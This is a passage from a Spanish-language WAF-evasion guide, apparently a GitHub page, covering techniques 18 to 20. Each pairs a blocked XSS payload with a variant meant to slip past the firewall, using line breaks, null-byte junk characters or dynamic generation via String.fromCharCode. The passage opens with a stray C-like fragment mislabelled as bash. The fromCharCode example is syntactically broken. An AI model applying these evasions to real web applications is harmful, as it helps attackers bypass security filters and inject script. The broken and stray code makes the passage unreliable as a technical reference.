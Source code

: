 **Actualizado con variable no inicializada:**
```bash
int x; return x = 1;
```

## 18. Técnica de Saltos de Línea

**Cómo hacerlo:**  
Introduce caracteres de salto de línea dentro de un payload para dividir los patrones maliciosos que el WAF está escaneando.

**Solicitud original bloqueada:**
```bash
<script>alert('XSS')</script>
```

**Actualizado con caracteres de salto de línea:**
```bash
<script>
alert('XSS')
</script>
```

## 19. Técnica de Caracteres Basura

**Cómo hacerlo:**  
Inserta caracteres aleatorios o irrelevantes en el payload que la aplicación objetivo ignorará, pero que podrían hacer que el WAF pase por alto el ataque.

**Solicitud original bloqueada:**
```bash
<script>alert('XSS')</script>
```

**Actualizado con caracteres basura:**
```bash
<scri%00pt>alert('XSS')</scri%00pt>
```

## 20. Técnica de Generación Dinámica de Payload

**Cómo hacerlo:**  
Genera payloads dinámicamente, de modo que cambien en cada solicitud, lo que dificulta que el WAF los reconozca y bloquee.

**Solicitud original bloqueada:**
```bash
<script>alert('XSS')</script>
```

**Actualizado con generación dinámica de payload:**
```bash
<script>eval(String.fromCharCode(97,108,101,

114,116)('XSS'))</script>
```
